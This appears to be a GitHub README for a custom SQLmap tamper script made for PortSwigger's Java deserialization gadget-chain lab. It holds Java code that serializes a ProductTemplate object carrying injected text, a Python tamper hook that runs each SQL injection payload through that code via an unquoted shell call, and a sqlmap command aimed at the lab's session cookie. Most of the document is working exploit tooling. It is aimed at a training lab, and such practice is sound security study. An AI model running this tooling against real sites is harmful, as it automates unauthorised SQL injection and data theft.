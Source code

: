 # SQLmap tamper script for Java deserialization gadget chain
Custom SQLmap tamper script for automating SQL injection in [PortSwigger's Java deserialization gadget chain lab.](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization)

## Contents of Main.java

```java
package data.productcatalog;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.util.Base64;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException
    {

        ProductTemplate product = new ProductTemplate(args[0]);


        ByteArrayOutputStream byte1 = new ByteArrayOutputStream(512);

        ObjectOutputStream out = new ObjectOutputStream(byte1);


        out.writeObject(product);

        System.out.println(Base64.getEncoder().encodeToString(byte1.toByteArray()));



    }
}

class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;

    public ProductTemplate(String id)
    {
        this.id = id;
    }


}
```
## Contents of java-gadgetchain-sqli.py
```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    import subprocess

    payload = subprocess.getoutput("java Main.java "+ '"' + payload + '"')

    return payload
```

## **Steps to Use**

1. **Clone the repository**

2. **Navigate into the directory**

3. **Run SQLmap with the tamper script**

   `sqlmap -u "https://YOURLAB.web-security-academy.net/" --cookie="session=*" --tamper=java-gadgetchain-sqli.py`



![Screenshot (1)](https://github.com/user-attachments/assets/be5af110-3135-468e-914e-0993015b3230)
![Screenshot (2)](https://github.com/user-attachments/assets/33e259f8-1ebd-4318-b406-a5e4ef2dd52c)

